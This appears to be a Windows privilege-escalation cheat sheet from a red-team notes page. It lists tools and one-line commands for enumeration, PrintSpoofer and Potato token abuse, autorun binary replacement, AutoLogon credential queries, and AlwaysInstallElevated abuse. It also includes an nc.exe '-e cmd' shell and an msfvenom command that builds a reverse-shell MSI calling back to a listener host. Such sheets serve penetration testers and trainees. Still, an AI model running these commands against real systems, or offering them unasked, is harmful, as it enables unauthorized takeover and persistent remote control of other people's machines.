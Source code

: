
## Windows
- [Cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)
- [Compiled Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)
```
# Automated
PowerUp.ps1 (use rdp if errors)
SharpUp.exe
privesccheck
winpeas.exe -lolbas


# Users
net user
net user <username>


# Hidden Directories
dir -Hidden
dir -Force


# Is Admin?
- Maybe the user is already admin


# UAC Bypass
- Maybe admin but uac is blocking


# Prinf Spoofer
impacket-rpcdump -port 135 <target-ip> | grep -E 'MS-RPRN|MS-PAR' OR
get-childitem \\.\pipe\ OR
(get-childitem \\.\pipe\).FullName OR
[System.IO.Directory]::GetFiles("\\.\\pipe\\")
.\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i


# Privileges
whoami /all
.\JuicyPotato.exe -t t -p <path to exploit binary> -l 5837
.\JuicyPotato.exe -e EfsRpc -p <path to nc.exe> -a "LHOST LPORT -e cmd"
.\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999
.\Incognito.exe list_tokens -u


# Autorun
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
accesschk.exe /accepteula -wvu <binary location>
copy C:\PrivEsc\reverse.exe <binary location> /Y
Login again


# AutoLogon
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon" 
reg query "HKCU\Software\Microsoft\Windows NT\CurrentVersion\winlogon" 


# Always Install Evelvated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated AND
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```